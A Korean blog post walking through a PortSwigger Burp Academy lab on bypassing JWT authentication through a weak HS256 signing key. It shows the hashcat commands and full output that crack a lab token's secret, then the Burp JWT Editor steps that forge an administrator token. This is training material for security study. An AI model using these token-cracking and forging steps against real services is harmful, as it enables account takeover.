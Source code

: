 ```yaml
---
layout: post
title: "Burp Academy-JWT 세번째 문제:JWT authentication bypass via weak signing key"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, JWT취약점]
toc: true
last_modified_at: 2025-03-11 05:55:00 +0900
---
```



# 개요
- JWT(JSON Web Token) 취약점 세번째 문제이다. 
- JWT 취약점 설명 주소: https://portswigger.net/web-security/jwt
- 문제 주소: https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key
- 난이도: PRACTITIONER (중간)

# 취약점 개요: Brute-forcing secret keys
`HS256 (HMAC + SHA-256)` 과 같은 어떤 서명 알고리즘은 임의의 문자열을 시크릿 키로 사용한다. 이 시크릿 키는 패스워드에 요구되는 것과 같이 쉽게 추측하거나 브루트 포스로 공격할 수 없어야 한다. 그렇지않으면, JWT의 헤더나 페이로드의 값을 쉽게 변조하고 재서명할 수 있게 되어 버린다. 

JWT 어플리케이션을 구현할 때, 개발자는 가끔 시크릿 키를 알려진 시크릿 키로 사용하는 실수를 범한다. 인터넷에서 찾은 코드 조각을 복사하여 붙여넣은 다음, 예시로 제공된 하드코딩된 비밀을 변경하는 것을 잊을 수도 있다. 이 경우 공격자가 [잘 알려진 시크릿 단어 목록](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)을 사용하여 서버의 키을 브루트 포스 공격할 수 있다. 

## 해시캣(hashcat)을 사용해서 시크릿 키 브루트포스 공격하기(Brute-forcing secret keys using hashcat)
비밀 키를 브루트포스 공격하려면 hashcat을 사용하는 것이 좋다. hashcat을 수동으로 설치할 수 있지만 , Kali Linux에 미리 설치되어 있으므로 편리하다. 

준비물은 대상 서버의 유효한 서명된 JWT와 "잘 알려진 시크릿 단어 목록"이다. 다음 명령을 실행하여 JWT와 단어 목록을 파라메터로 전달할 수 있다. 

```sh
hashcat -a 0 -m 16500 <jwt> <wordlist>
```

Hashcat은 단어 목록에 있는 단어(시크릿)을 사용하여 JWT의 헤더와 페이로드에 서명한 다음, 결과 서명을 서버의 원본 서명과 비교한다. 서명 중 하나라도 일치하면 hashcat은 다양한 다른 세부 정보와 함께 다음 형식으로 식별된 시크릿을 출력한다. 

```sh
<jwt>:<identified-secret>
```

Hashcat은 컴퓨터에서 로컬로 실행되고 서버로 요청을 보내는데 의존하지 않으므로, 거대한 단어 목록을 사용하더라도 프로세스가 매우 빠르게 진행된다.

시크릿 키를 식별한 후에는 원하는 JWT 헤더와 페이로드에 대한 유효한 서명을 생성하는 데 사용할 수 있다. 

# 문제 설명
- 이 랩은 JWT 기반으로 세션을 처리한다. 서버는 아주 약한 시크릿키를 사용하여 토큰에 서명하고 토큰의 서명을 검증한다. 이는 알려진 시크릿을 사용하여 브루트 포스 공격하는 것을 쉽게 만든다. 
- 랩을 풀려면 먼저 웹 사이트의 시크릿 키를 브루트 포스로 알아낸다. 그 후, 알아낸 시크릿 키를 사용하여 세션 토큰을 변조하고, 관리자 패널(/admin)에 접근하여 carlos유저를 삭제하면 된다.
- wiener:peter 크레덴셜을 사용하여 로그인 가능하다. 

```
This lab uses a JWT-based mechanism for handling sessions. It uses an extremely weak secret key to both sign and verify tokens. This can be easily brute-forced using a wordlist of common secrets.

To solve the lab, first brute-force the website's secret key. Once you've obtained this, use it to sign a modified session token that gives you access to the admin panel at /admin, then delete the user carlos.

You can log in to your own account using the following credentials: wiener:peter
```

# 풀이
## 브루트 포스로 시크릿 키 얻어내기 
※ 먼저 Burp Suite에서 `JWT Editor`확장 프로그램을 로드해둔다. 

1. 브루트 포스로 시크릿 키를 얻어낼 것이다. 주어진 크레덴셜로 로그인해서 다음 JWT를 얻었다. 

```
eyJraWQiOiJmNGJjMDU1MC1jY2IxLTQ2MzUtOTM0MS1kOWU2ZWY2ZDhlZDQiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MTY1OTc2MSwic3ViIjoid2llbmVyIn0.zw7u4gaYbtOnppPrEap9ueE-rt5BOpLRDRs0L3tKVGo
```

2. 이 것을 hashcat으로 해킹한다. 다음 커맨드를 사용했다.

```sh
mkdir jwt-secrets
cd jwt-secrets
# 알려진 JWT 시크릿 키 리스트를 다운로드
wget https://raw.githubusercontent.com/wallarm/jwt-secrets/refs/heads/master/jwt.secrets.list
# 브루트포스: a 옵션은 attack-mode다. 0은 Straight를 의미한다.  m 옵션은 hash-type이다. 16500은 JWT를 의미한다. 
hashcat -a 0 -m 16500 eyJraWQiOiJmNGJjMDU1MC1jY2IxLTQ2MzUtOTM0MS1kOWU2ZWY2ZDhlZDQiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MTY1OTc2MSwic3ViIjoid2llbmVyIn0.zw7u4gaYbtOnppPrEap9ueE-rt5BOpLRDRs0L3tKVGo jwt.secrets.list
```

3. 실행결과는 다음과 같다. 크랙에 성공하여 시크릿이 `secret1`이라는 것을 알아냈다. 

```sh
┌──(kali㉿kali)-[~/jwt-secrets]
└─$ hashcat -a 0 -m 16500 eyJraWQiOiJmNGJjMDU1MC1jY2IxLTQ2MzUtOTM0MS1kOWU2ZWY2ZDhlZDQiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MTY1OTc2MSwic3ViIjoid2llbmVyIn0.zw7u4gaYbtOnppPrEap9ueE-rt5BOpLRDRs0L3tKVGo jwt.secrets.list
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Xeon(R) CPU E5-2686 v4 @ 2.30GHz, 1437/2939 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: jwt.secrets.list
* Passwords.: 103975
* Bytes.....: 1231359
* Keyspace..: 103961
* Runtime...: 0 secs

eyJraWQiOiJmNGJjMDU1MC1jY2IxLTQ2MzUtOTM0MS1kOWU2ZWY2ZDhlZDQiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0MTY1OTc2MSwic3ViIjoid2llbmVyIn0.zw7u4gaYbtOnppPrEap9ueE-rt5BOpLRDRs0L3tKVGo:secret1

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 16500 (JWT (JSON Web Token))
Hash.Target......: eyJraWQiOiJmNGJjMDU1MC1jY2IxLTQ2MzUtOTM0MS1kOWU2ZWY...3tKVGo
Time.Started.....: Tue Mar 11 01:44:26 2025 (0 secs)
Time.Estimated...: Tue Mar 11 01:44:26 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (jwt.secrets.list)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   879.7 kH/s (0.37ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 512/103961 (0.49%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 0/103961 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....:  -> 6ce33aa7-3edd-44eb-9060-74c61e3a96b1

Started: Tue Mar 11 01:44:25 2025
Stopped: Tue Mar 11 01:44:28 2025

┌──(kali㉿kali)-[~/jwt-secrets]
└─$

```


## 얻어낸 시크릿으로 서명용 키 생성하기 
1. Burp Decoder에서 알아낸 secret을 Base64인코딩한다. 이 값을 클립보드에 복사해둔다. 

```
c2VjcmV0MQ==
```

2. JWT Editor 탭에서 New Symmetric Key 버튼을 누른다. 그 후에 Generate 버튼을 누른다. 그러면 새로운 키가 생성된다. 여기서 k 의 값을 바꿀 것이다. 

![](/images/burp-academy-jwt-3-1.png)

3. k의 값을 1번 과정에서 생성해둔 Base64값으로 변경하고 OK버튼을 누른다. 

![](/images/burp-academy-jwt-3-2.png)

4. 새로운 키가 생성되었다. 

![](/images/burp-academy-jwt-3-3.png)

## JWT토큰 변조하기 
1. 유저정보를 조회하는 요청 `GET /my-account?id=wiener`을 Proxy의 HTTP History탭에서 찾아서 Repeater로 보낸다. JWT Web Token 탭에서 Payload 부분의 `sub`값을 administrator로 변경한다. 그리고 Sign버튼을 클릭한다. 

![](/images/burp-academy-jwt-3-4.png)

2. 서명할 때 어떤 키를 사용할 것인지 묻는 팝업이 나타난다. 위의 과정에서 만들어둔 키를 선택한다. `alg`는 HS256 으로, Header Options는 Don't modify header인 상태로 둔다.  OK를 누른다. 

![](/images/burp-academy-jwt-3-5.png)

3. HTTP 요청 `GET /my-account?id=wiener` 부분의 id파라메터를 administrator로 변경한 후에 요청을 보낸다. 그러면 200응답이 회신되고 HTML페이지 안에 관리자 패널이 있는 것을 볼 수 있다. 관리자의 세션 토큰을 얻는 것에 성공했다! 

![](/images/burp-academy-jwt-3-6.png)

4. `GET /admin` 으로 요청을 보내면 carlos유저를 삭제하는 경로 `/admin/delete?username=carlos`가 보인다. carlos 유저를 삭제하는 요청을 보내면 랩이 풀린다. 

![](/images/burp-academy-jwt-3-success.png)

